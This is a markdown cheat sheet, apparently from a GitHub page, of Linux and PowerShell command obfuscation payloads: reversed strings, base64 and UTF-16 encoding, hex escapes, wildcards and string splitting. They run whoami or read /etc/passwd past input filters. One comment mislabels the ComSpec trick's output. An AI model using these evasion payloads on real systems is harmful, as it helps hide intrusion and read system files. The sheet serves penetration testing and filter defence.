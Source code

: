 ### Reversed Commands

```bash
# Linux/Unix
echo 'whoami' | rev  # Outputs "imaohw"
$(rev<<<'imaohw')  # Executes "whoami"

# Windows PowerShell
"whoami"[-1..-20] -join ''  # Outputs "imaohw"
iex "$('imaohw'[-1..-20] -join '')"  # Executes "whoami"
```

### Encoded Commands

```bash
# Base64 encoding (Linux)
echo -n 'cat /etc/passwd | grep 33' | base64  # Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

# Unicode/Base64 (Windows PowerShell)
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))  # dwBoAG8AYQBtAGkA
powershell -EncodedCommand dwBoAG8AYQBtAGkA

# Converting between encodings
echo -n whoami | iconv -f utf-8 -t utf-16le | base64  # dwBoAG8AYQBtAGkA
```

## Multi-Step Obfuscation Examples

### Linux Complex Obfuscation

```bash
# Layered obfuscation
$(echo -n 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | sh)

# Character substitution + reversal
$(rev<<<'ssap/cte/ tac') | bash

# Variable expansion + hex encoding + IFS
h=$(printf "\x77\x68\x6f\x61\x6d\x69");$h

# Wildcard expansion
/???/??t /???/p??s??

# Nested encodings
echo -n 'echo -n "cat /etc/passwd" | base64' | base64 | base64 -d | bash | base64 -d | bash
```

### Windows Complex Obfuscation

```powershell
# PowerShell nested encoding
powershell -c "IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('d2hvYW1p')))"

# Command splitting + joining
$a='who';$b='ami';iex ($a+$b)

# Obfuscation using environment variables and concatenation
&($env:ComSpec[4,15,25]-join'') # Executes 'exe'
```
